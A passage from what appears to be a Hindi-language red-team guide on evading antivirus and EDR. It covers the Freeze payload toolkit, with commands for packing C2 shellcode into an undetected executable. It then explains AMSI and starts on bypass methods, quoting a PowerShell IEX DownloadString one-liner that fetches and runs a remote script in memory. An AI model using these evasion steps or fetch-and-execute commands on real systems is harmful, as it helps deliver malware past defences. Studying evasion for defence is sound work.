 ## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze एक पेलोड टूलकिट है जो सस्पेंडेड प्रोसेसेस, डायरेक्ट सिस्कॉल्स, और वैकल्पिक एक्जीक्यूशन मेथड्स का उपयोग करके EDRs को बायपास करने के लिए है`

आप Freeze का उपयोग करके अपने शेलकोड को एक चुपके तरीके से लोड और निष्पादित कर सकते हैं।
```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
<figure><img src="../.gitbook/assets/freeze_demo_hacktricks.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Evasion एक बिल्ली और चूहे का खेल है, जो आज काम करता है वह कल पकड़ा जा सकता है, इसलिए कभी भी केवल एक उपकरण पर निर्भर न रहें, यदि संभव हो तो, कई Evasion तकनीकों को जोड़ने का प्रयास करें।
{% endhint %}

## AMSI (Anti-Malware Scan Interface)

AMSI का निर्माण "[fileless malware](https://en.wikipedia.org/wiki/Fileless\_malware)" को रोकने के लिए किया गया था। प्रारंभ में, AV केवल **डिस्क पर फाइलों** को स्कैन करने में सक्षम थे, इसलिए यदि आप किसी तरह से payloads को **सीधे in-memory** निष्पादित कर सकते हैं, तो AV इसे रोकने के लिए कुछ भी नहीं कर सकता था, क्योंकि उसके पास पर्याप्त दृश्यता नहीं थी।

AMSI सुविधा Windows के इन घटकों में एकीकृत है।

* User Account Control, या UAC (EXE, COM, MSI, या ActiveX स्थापना का उन्नयन)
* PowerShell (स्क्रिप्ट्स, इंटरैक्टिव उपयोग, और गतिशील कोड मूल्यांकन)
* Windows Script Host (wscript.exe और cscript.exe)
* JavaScript और VBScript
* Office VBA macros

यह एंटीवायरस समाधानों को स्क्रिप्ट व्यवहार का निरीक्षण करने की अनुमति देता है, स्क्रिप्ट सामग्री को एक ऐसे रूप में प्रकट करके जो दोनों अनएन्क्रिप्टेड और अनऑब्फस्केटेड है।

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` चलाने से Windows Defender पर निम्नलिखित अलर्ट उत्पन्न होगा।

<figure><img src="../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

ध्यान दें कि यह कैसे `amsi:` को जोड़ता है और फिर उस एक्जीक्यूटेबल का पथ जिससे स्क्रिप्ट चली, इस मामले में, powershell.exe

हमने डिस्क पर कोई फाइल नहीं डाली, लेकिन फिर भी AMSI के कारण in-memory में पकड़े गए।

AMSI को बायपास करने के कुछ तरीके हैं:

* **Obfuscation**

चूंकि AMSI मुख्य रूप से स्थिर पतासाजी के साथ काम करता है, इसलिए, आप जो स्क्रिप्ट्स लोड करने की कोशिश करते हैं, उन्हें संशोधित करना पतासाजी का पता लगाने से बचने का एक अच्छा तरीका हो सकता है।
